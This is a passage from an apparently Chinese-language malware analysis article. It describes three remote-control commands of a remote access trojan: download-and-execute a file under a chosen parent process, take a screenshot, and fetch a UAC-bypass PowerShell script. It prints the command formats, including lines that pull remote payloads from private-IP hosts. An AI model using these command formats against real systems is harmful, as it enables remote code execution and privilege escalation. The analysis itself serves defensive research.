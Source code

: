 通过分析，发现ppkjidlmspplloff远控指令功能为外链下载文件并以指定父进程执行，梳理ppkjidlmspplloff远控指令的命令格式如下：  
```
ppkjidlmspplloff|https://192.168.65.1/uijjxqdzdele.exe|3204

```  
  
远控功能复现情况如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUCkD4XOSEDFzUt7VlXMf2j9t94tTRicqrGJXIR3Qk3eVgibDGMJ0S7icpfw/640?wx_fmt=png&from=appmsg "")  
  
相关解密后通信数据包截图如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUCnML4ShdfGajSibryVfdIDG6pqNqEI1jdFrRbXhNqrSERhzQbpyHm42w/640?wx_fmt=png&from=appmsg "")  
  
相关代码截图如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUCRv0hiciajp3Hlaiat79u5owPk1mwNiaaHfiaWTjsUXDF4ua6p7ibeTUGiaaUQ/640?wx_fmt=png&from=appmsg "")  
### s?p????????t  
  
通过分析，发现s?p????????t远控指令功能为截屏，梳理s?p????????t远控指令的命令格式如下：  
```
s?p????????t

```  
  
远控功能复现情况如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUCnlciaL0KOZVbYX0DlxuoypSYTaRKxfSMpDVE52yhKHgS9Hv75aibg1gg/640?wx_fmt=png&from=appmsg "")  
  
相关解密后通信数据包截图如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUCndbbFwmDoQuW0y7icMX0ricw8gHO4Nq8ia19yWNibeCfbGOMMbwjKFhiatw/640?wx_fmt=png&from=appmsg "")  
  
相关代码截图如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUC7o2sicY2waYYO2EbcfmBp07Qev8n3icOIdfe0qDtvIIKYGibywDOI0HNw/640?wx_fmt=png&from=appmsg "")  
### undhpass  
  
通过分析，发现undhpass远控指令功能为外链下载Bypass-UAC脚本用于绕过UAC，梳理undhpass远控指令的命令格式如下：  
```
undhpass|https://192.168.153.1/powershell.ps1

```  
  
远控功能复现情况如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUCFgQpAwE8BbGn71t5SA8tY7aHxyoj3AHhcQB4dOJCRJYpUfibYRiccJDg/640?wx_fmt=png&from=appmsg "")  
  
相关解密后通信数据包截图如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUC0PEJLZft8xG5QXiaMviaJEgMia8aC0sj1yrxt5rMmo5m7aqqzLOeJ0rgg/640?wx_fmt=png&from=appmsg "")  
  
相关代码截图如下：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/4FZ1BxQicQ9wWD4YiaHcB26h8ZhFiaYFwUCrG5icOYBDRY9mxSibsclicHwj6wgeQOXJDVic5D2UKoiaMnRVcEuoOLQRsQ/640?wx_fmt=png&from=appmsg "")  
  